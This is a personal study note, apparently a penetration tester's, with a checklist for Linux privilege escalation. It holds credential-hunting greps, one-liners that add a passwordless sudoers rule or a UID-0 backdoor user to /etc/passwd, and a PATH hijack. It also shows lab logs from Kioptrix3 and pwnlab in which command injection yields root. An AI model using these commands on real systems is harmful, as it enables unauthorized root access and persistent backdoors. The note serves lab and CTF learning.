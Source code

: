 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Linux Privilege Escalation]]  
___

## Description:  

### look for vulnerable programs that run as root

[gtfobins](https://gtfobins.github.io/)

**What commands can the user execute with sudo?

`sudo -l

**What is the kernel version and architecture type?

`uname -a

`uname -r

**What is the OS version

`cat /etc/*-release

**What languages are installed?

`man -k language

`which gcc

`which g++

**What are the SUID/GUID binaries?

``find / -perm -u=s -type f 2>/dev/null

``find / -perm -g=s -type f 2>/dev/null

** Are there world writable files?

`find / -perm -2 –type f

**What have users been doing? Command history?

`history

``.bash_history

**Are there any plaintext credentials to be found?

`find . -type f | xargs grep –i “password”

`grep –r . –e “password” 2>/dev/null

**What jobs are scheduled?

`crontab -l

l`s -lah /etc/cron* 2>/dev/null

**Scripts that can be used if they run as root:

`echo “user ALL=(ALL) NOPASSWD:ALL” >> /etc/sudoers

`echo “user::0:0:System Administrator:/root/root:/bin/bash” >> /etc/passwd

`bash -i

**Editing the Sudoers file to give root

change:

`loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht 

To:

`loneferret ALL=NOPASSWD: /bin/su, /usr/local/bin/ht 

`loneferret@Kioptrix3:~$ sudo /bin/su 

**What processes and services are running?  Which are running as root?

`ps –ef

`ps –ef | grep root

**Is /etc/passwd writable?

`echo root::0:0:root:/root:/bin/bash > /etc/passwd

Removing x means root requires no password anymore

--OR--

generate hash of the password:

`openssl passwd -1 -salt [salt value] {password}

`openssl passwd -1 -salt user3 pass123

to create a second root user with "mrcake" password:

`echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd

to switch to a root2 account that was just created:

`su root2

`Password: mrcake

**Can you run tcpdump?

run tcpdump with -I lo for loopback

or what other systems are connecting to it? You might be able to get a username and password

**Program that runs a command without an absolute path

Create a program with the same name in the tmp directory (echo /bin/bash >> command) and then add tmp to the beginning of path (export PATH=/tmp:$PATH)

```
kane@pwnlab:~$ cd /tmp

cd /tmp

kane@pwnlab:/tmp$ echo /bin/bash > cat

echo /bin/bash > cat

kane@pwnlab:/tmp$ chmod 777 cat

chmod 777 cat

kane@pwnlab:/tmp$ export PATH=/tmp:$PATH

export PATH=/tmp:$PATH

kane@pwnlab:/tmp$ cd /home/kane

cd /home/kane

kane@pwnlab:~$ ./msgmike

./msgmike

mike@pwnlab:~$ id

id

uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)

```
**Can you use command concatenation with && /bin/sh or &&/bin/bash?

```
mike@pwnlab:/home/mike$ ./msg2root

./msg2root

Message for root: hello && /bin/sh

hello && /bin/sh

hello

# id

id

uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)

```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:02 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
